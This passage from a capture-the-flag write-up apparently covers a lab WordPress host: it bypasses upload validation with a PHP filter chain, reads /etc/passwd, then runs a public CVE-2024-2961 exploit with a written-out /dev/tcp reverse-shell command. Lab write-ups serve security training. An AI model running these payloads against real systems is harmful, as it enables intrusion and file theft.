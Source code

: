 ```json
{
    "status": "FAILED",
    "response": "File type  is not allowed."
}
```
Seems theres some file upload validation, let's use [wrapwrap](https://github.com/ambionics/wrapwrap) to create a php filter chain and add the magic bytes `GIF89a`
```bash
wrap /etc/passwd 'GIF89a\n' '' 1
[!] Ignoring nb_bytes value since there is no suffix
[+] Wrote filter chain to chain.txt (size=1982).
```
and send the resulting file as our url payload.
```json
{
    "status": "OK",
    "response": "http:\/\/blog.bigbang.htb\/wp-content\/uploads\/2025\/02\/1-3.png",
    "attachment_id": 172
}
```
Let's take the response link and put it into curl to download the image.
```bash
curl http:\/\/blog.bigbang.htb\/wp-content\/uploads\/2025\/02\/1-3.png -O 
```
We succesfully read `/etc/passwd`!
```
GIF89a\nMroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nol#
```
Based on the following blog, we can see that we can convert this file read to an RCE:
[Iconv, set the charset to RCE: Exploiting the glibc to hack the PHP engine (part 1)](https://www.ambionics.io/blog/iconv-cve-2024-2961-p1)

An exploit was already made for us:
[exploit cve-2023-26326](https://github.com/omarelshopky/exploit_cve-2023-26326_using_cve-2024-2961)
```bash
python exploit.py "http://blog.bigbang.htb/wp-admin/admin-ajax.php" 'bash -c "bash -i >& /dev/tcp/10.10.14.25/9001 0>&1"'
```
And we get a reverse shell as `www-data`
# User
Looking around we figure out that we're in a `docker`:
```bash
www-data@bf9a078a3627:/$ ls -la
ls -la
total 72
drwxr-xr-x   1 root root 4096 Jun  1  2024 .
```